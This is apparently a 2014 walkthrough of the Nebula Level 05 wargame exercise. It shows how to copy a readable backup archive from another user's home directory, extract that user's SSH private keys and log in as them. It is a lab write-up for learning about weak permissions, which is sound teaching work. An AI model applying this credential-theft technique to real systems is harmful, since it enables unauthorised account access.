 ```yaml
---
title: "Exploit Exercises - Nebula Level 05"
date: 2014-01-13 14:16:44+08:00
categories: 
- Security
- Exercises
- Nebula
---
```


### About

Check the *flag05* home directory. You are looking for weak directory permissions

To do this level, log in as the *level05* account with the password *level05* . Files for this level can be found in /home/flag05.

<!-- more -->

### Solution

Copy the file */home/flag05/.backup/backup-19072011.tgz* in to home directory of *level05*.

extract it

``` bash
level05@nebula:~$ tar -xvf backup-19072011.tgz
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
```

So this should be the id key of user *flag05*, try to use `ssh` to login with user *flag05* without a password, and it successed.

``` bash
level05@nebula:~$ ssh flag05@localhost

      _   __     __          __
     / | / /__  / /_  __  __/ /___ _
    /  |/ / _ \/ __ \/ / / / / __ `/
   / /|  /  __/ /_/ / /_/ / / /_/ /
  /_/ |_/\___/_.___/\__,_/_/\__,_/

    exploit-exercises.com/nebula


For level descriptions, please see the above URL.

To log in, use the username of "levelXX" and password "levelXX", where
XX is the level number.

Currently there are 20 levels (00 - 19).


Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation:  https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

flag05@nebula:~$
```